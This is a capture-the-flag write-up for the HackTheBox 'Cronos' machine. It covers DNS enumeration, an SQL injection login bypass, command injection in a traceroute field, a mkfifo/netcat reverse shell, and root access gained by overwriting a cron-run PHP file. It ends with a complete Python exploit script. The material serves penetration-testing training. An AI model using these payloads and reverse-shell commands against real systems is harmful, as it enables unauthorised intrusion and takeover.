

This machine was an medium box Linux from HackTheBox. Your entrypoint is with Web app.

There’re a page login  where It’s possible bypass SQL Injection. After login there’re a field vulnerable to RCE where we got shell.

Privilege escalation is replacing a script in `cron` running as root with a reverse shell.

The exploit for this machine is on the end of the post.

**Have a good time!**


# Introdution

[https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos)

* **IP:** 10.10.10.13

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.13 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.13
```


## Port 53 (DNS) 

For DNS enumeration, the first thing to do is try to resolve the Cronos IPs. I'll use `nslookup`, setting the server to Cronos and then looking up Cronos' IP:

```bash
nslookup 10.10.10.13 10.10.10.13
```


We verify that the base domain is **cronos.htb.**

Whenever there is TCP DNS, it is worth trying a zone transfer, which returns two other subdomains `admin` and `www`:

```bash
dig axfr @10.10.10.13 cronos.htb
```


We add the subdomain in `/etc/hosts`


### Brute Force Subdomain

I'll run a `gobuster` quick subdomain brute force, but it will only return the three known ones:

```bash
gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100
```

```bash
Found: www.cronos.htb
Found: ns1.cronos.htb
Found: admin.cronos.htb
```

## Port 80 (HTTP)

Both `cronos.htb` and `www.cronos.htb` lead to this page:


### Page Login

[http://admin.cronos.htb/](http://admin.cronos.htb/)


### SQL Injection

We tried SQL Injection on the login page.

We had success with ' `or 1=1-- -`

alternative: `admin'-- -`


---

### Remote Code Execution (RCE)

We managed to inject linux commands with “`;" + "command"`

```bash
8.8.8.8; whoami
```


# Exploration

## Exploring RCE

```bash
8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f
```


**HABEMUS SHELL!!!**

# Post Exploration

## www-data → root

### Spawn Shell

```bash
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
export SHELL=bash
export TERM=xterm-256color
```

### Enumeration

The Linpeas output reveals a php file running as root as a scheduled task in crontab.


```bash
cat /etc/crontab
```


We have write permission and this file is executable as root.


### Poison Artesan file

We replaced the content of artisan with a php reverse shell.

After 1 min crontab run the file as root.


**HABEMUS ROOT!!!**

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`cronos-getshell.py`

```python
#! /usr/bin/env python3

#### Title: Exploit Get Shell - RCE
#### Author: 0xEtern4lW0lf
#### Created: 22 Dez 2022
#### Description: GetShell - Cronos - HTB

#### ========= MODULES =========

import argparse
import requests
import socket, telnetlib
from threading import Thread
import base64

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection the {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Function encode Base64
def b64e(s):
    return base64.b64encode(s.encode()).decode()

## Create the payload
def createPayload(lhost,lport):
    print("[+] Creating the payload !! [+]")
    global payload_encoded
    global payload
    payload = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f"
    payload_encoded = str(b64e(payload))

## Login as admin on the app
def loginAdmin(rhost):
    print("[+] Let's login as admin [+]")
    url = f"http://{rhost}:80/"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "' or 1=1-- -", "password": ""}
    
    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)
    print("[+] Logged In !! [+]")

## Get the reverse shell
def getShell(payload_encoded):
    print("[+] Let's get the reverse shell [+]")
    url = "http://admin.cronos.htb:80/welcome.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"command": "traceroute", "host": f";echo {payload_encoded} | base64 -d | bash"}
    
    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Cronos / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    
    ## Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    

    ## Create the payload
    createPayload(lhost,lport)

    ## Print some information
    print("\n[+] Setting information")
    print("[+] target: ", rhost)
    print("[+] lhost: ", lhost)
    print("[+] lport: ", lport)
    print("[+] payload: ", payload)
    

    ## Login as admin
    loginAdmin(rhost)
    

    ## Get the Shell
    getShell(payload_encoded)

#### ======= EXECUTION =======

if __name__ == '__main__':
    banner()
    main()
```


 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).